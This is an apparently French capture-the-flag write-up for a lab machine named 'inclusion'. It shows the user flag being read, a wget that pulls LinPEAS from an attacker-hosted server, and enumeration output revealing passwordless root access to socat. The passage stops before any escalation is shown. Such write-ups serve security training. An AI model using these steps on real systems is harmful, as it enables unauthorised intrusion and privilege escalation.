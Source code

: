 
On a une connection ! flag !

```sh
falconfeast@inclusion:~# cat user.txt 
60989655118397345799
```

> Flag 1: **60989655118397345799**


## Recherche de vecteurs d'élévation de privilège:

```sh
# ps -aux
root       556  0.0  3.2 243012 32324 ?        Ss   01:00   0:00 /usr/bin/python3 /usr/local/bin/flask run --host=0.0.0.0 --port=80
```

### LinPEAS
Upload de linpeas via serveur web local.

wget http://10.9.11.184/linpeas.sh


```sh
[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
**    (root) NOPASSWD: /usr/bin/socat**

[+] Checking Pkexec policy

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:**sudo**;unix-group:admin

-rw-r--r-- 1 falconfeast falconfeast 0 Jan 21 15:53 /home/falconfeast/.sudo_as_admin_successful
```

```sh
# sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat

```
> On peux lancer `/usr/bin/socat` en tant que root !
